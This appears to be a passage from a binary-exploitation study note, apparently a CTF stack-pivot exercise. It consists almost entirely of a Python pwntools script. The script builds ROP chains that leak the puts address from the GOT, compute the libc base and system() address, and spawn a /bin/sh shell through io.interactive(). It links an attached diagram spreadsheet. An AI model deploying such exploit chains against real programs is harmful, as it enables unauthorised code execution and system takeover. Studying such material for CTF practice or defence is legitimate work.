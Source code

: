 ```python

puts_plt=elf.plt['puts']
pop1ret=0x0804836d
# 0x0804836d : pop ebx ; ret
puts_got=elf.got['puts']

pay2=p32(buf1)+p32(puts_plt)+p32(pop1ret)+p32(puts_got)
pay2+=p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(0x100)
io.sendline(pay2)

puts_addr=u32(io.recv(4))
success("puts_addr = "+hex(puts_addr))
libcbase=puts_addr-libc.symbols['puts']
system_addr=libcbase+libc.symbols['system']

pop3ret=0x08048569
# 0x08048569 : pop esi ; pop edi ; pop ebp ; ret
pay3=p32(buf)+p32(read_plt)+p32(pop3ret)+p32(0)+p32(buf)+p32(0x100)
pay3+=p32(system_addr)+p32(0xdeadbeef)+p32(buf)
io.sendline(pay3)
io.sendline("/bin/sh\x00")

io.interactive()
```



[栈转移分步图解.xlsx](https://www.yuque.com/attachments/yuque/0/2020/xlsx/574026/1597666851339-a037d8ed-7306-481f-9fa4-4a87f058664f.xlsx)

